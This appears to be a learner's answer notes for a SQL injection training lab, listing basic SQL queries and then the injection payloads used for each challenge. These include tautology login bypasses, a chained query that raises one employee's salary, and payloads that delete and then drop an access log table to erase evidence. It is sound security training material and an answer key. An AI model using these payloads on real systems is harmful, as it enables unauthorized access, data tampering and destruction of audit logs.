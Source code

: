 # Challenge name: What is SQL?
My query: `SELECT department FROM Employees WHERE last_name = 'Franco'`

# Challenge name: Data Manipulation Language (DML)
Myquery: `UPDATE Employees SET department = 'Sales' WHERE userid = 89762`

# Challenge name: Data Definition Language (DDL)
My query: `ALTER TABLE Employees ADD phone varchar(20)`

# Challenge name: Data Control Language (DCL)
My query: `GRANT SELECT on grant_rights to unauthorized_user`

# Challenge name: Try It! String SQL injection
My answer: `Smith'` `or` `'1'='1`

# Challenge name: Try It! Numeric SQL injection
My payload on `User_Id`: `1 or 1=1 --` and on `Login_Count` is anything number.

# Challenge name: Compromising confidentiality with String SQL injection
My payload on `Employee Name`: `' or 1=1 -- `

# Challenge name: Compromising Integrity with Query chaining
My payload on `Employee Name`: `';UPDATE Employees SET salary = 100000 WHERE userid = 37648 -- `

# Challenge name: Compromising Availability
First payload `'; DELETE FROM access_log -- ` 
But... `There is still evidence of what you did. Better remove the whole table.`
Last payload: `'; DROP TABLE access_log -- `